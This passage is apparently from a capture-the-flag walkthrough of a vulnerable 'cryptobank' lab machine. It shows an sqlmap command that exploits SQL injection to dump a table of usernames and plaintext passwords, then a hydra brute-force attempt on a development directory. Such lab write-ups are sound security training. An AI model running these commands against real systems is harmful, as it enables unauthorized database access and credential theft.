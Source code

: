 The <i>accounts</i> table seems to be interesting. Let's have a quick look at it.

```r
m1m3@kali:~$ sqlmap -u http://cryptobank.local/trade/applying_loan.php?loan_id=2 -D cryptobank -T accounts --dump  

...

Database: cryptobank
Table: accounts
[12 entries]
+------------+---------+--------------------+------------+
| id_account | balance | username           | password   |
+------------+---------+--------------------+------------+
| 11         | 1       | patric             | x8CRvHqgPp |
| 12         | 777     | notanirsagent      | 8hPx2Zqn4b |
| 10         | 857     | tim                | zm2gBcaxd3 |
| 4          | 1375    | johndl33t          | NqRF4W85yf |
| 9          | 2886    | buzzlightyear      | LnBHvEhmw3 |
| 8          | 4324    | deadbeef           | 6X7DnLF5pG |
| 6          | 8531    | spongebob          | 3mwZd896Me |
| 3          | 26321   | bill.w             | 3Nrc2FYJMe |
| 2          | 34421   | juliusthedeveloper | wJWm4CgV26 |
| 1          | 87549   | williamdelisle     | gFG7pqE5cn |
| 5          | 434455  | mrbitcoin          | LxZjkK87nu |
| 7          | 733456  | dreadpirateroberts | 7HwAEChFP9 |
+------------+---------+--------------------+------------+
```

Wooah! We just managed to get some login information. We can probably use them to login into the development directory. I'll be using hydra, just save these usernames and passwords in separate lists.

```r
m1m3@kali:~$  hydra -L users.txt -P passwords.txt -f 192.168.1.9 http-get /development

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[DATA] max 16 tasks per 1 server, overall 16 tasks, 144 login tries (l:12/p:12), ~9 tries per task
[DATA] attacking http-get://192.168.1.9:80/development
1 of 1 target completed, 0 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra)
```

But that does not seem to work. Enumerating more in the website, I found some more usernames in the page source of the home page.   

<center><br>
<img src="/assets/img/uploads/cryptobank/usernames.png">
</center>
